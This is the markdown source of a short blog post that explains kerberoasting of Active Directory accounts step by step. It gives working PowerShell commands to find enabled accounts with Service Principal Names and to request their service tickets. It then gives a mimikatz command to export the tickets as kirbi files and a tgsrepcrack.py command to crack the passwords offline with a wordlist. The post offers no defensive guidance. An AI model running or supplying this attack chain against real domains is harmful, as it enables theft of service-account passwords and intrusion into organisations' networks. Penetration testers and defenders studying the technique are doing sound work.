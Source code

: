```yaml
---
layout: post
title: "Kerberoasting Active Directory Accounts"
date: 2022-07-09
---
```


## Identifying User Objects Vulnerable to Kerberoasting
<p>The below PowerShell command identifies user objects that have a Service Principal Name (SPN). Any user object with a SPN is vulnerable to kerberoasting. The below command requires the Active Directory PowerShell module.</P> 

~~~powershell
Get-ADUser -filter {(ServicePrincipalName -like "*") -and (Enabled -eq $true)} -Properties ServicePrincipalName, PasswordLastSet | Select Name, ServicePrincipalName, PasswordLastSet
~~~

<p>After identifying user objects configured with a SPN, the below commands can be entered into PowerShell to retrieve the service ticket for the user object and store it in memory. The service ticket contains the encrypted password for the user object. If the user object is configured with a weak password, it may be possible to crack it and reveal the clear text password.</p>

~~~powershell
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "InsertSPNNameHere"
~~~

<p>After retrieving the service ticket into memory. A tool such as <a href="https://github.com/gentilkiwi/mimikatz" title="mimikatz">mimiktaz</a> can be used to retrive the service ticket from memory. The below mimikatz command retrieves service tickes from memory and saves it as a kirbi file.</p>

~~~cmd
mimikatz # kerberos::list /export
~~~

<p>The kirbi file can now be taken offline and cracked to reveal the clear text password. The <https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py> Python script and a wordlist can be used to crack the clear text password. Below is the required syntax:</p>

~~~bash
python3 tgsrepcrack.py dictionaryfile .kirbifile
~~~

![crackedspnexample](/assets/crackspn.png)